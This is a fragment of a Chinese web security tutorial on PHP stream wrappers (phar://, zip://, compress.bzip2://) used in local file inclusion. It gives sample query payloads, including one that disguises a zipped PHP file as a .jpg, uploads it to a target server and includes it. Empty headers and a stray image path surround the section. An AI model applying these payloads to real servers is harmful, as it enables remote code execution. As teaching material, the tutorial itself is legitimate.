 
#### 简介：

---


#### 示例：

> 
<h3>2.4、phar://、zip://、bzip2://、zlib://</h3>
<h4>简介：</h4>
用于读取压缩文件，可以访问压缩文件中的子文件，更重要的是不需要指定后缀名，可修改为任意后缀
<hr/>
<h4>前提：</h4>
allow_url_fopen:off/on
allow_url_include :off/on
<hr/>
<h4>用法：</h4>
phar://[压缩文件路径]/[压缩文件内的子文件名]
zip://[压缩文件绝对路径]%23[压缩文件内的子文件名]（%23为#）
compress.bzip2://file.bz2
<hr/>
<h4>示例：</h4>
1、将php文件添加到压缩文件中（phar）
……?file=phar://D:/……1.zip/1.php
2、将php文件添加到1.zip中，并将1.zip重命名为1.jpg，再上传到目标服务器（zip）
……?file=zip://D:/……1.jpg%231.php
3、压缩1.php为1.bz2（bzip2）
……?file=compress.bzip2://D:/……1.bz2


#### 前提：

---


#### 示例：
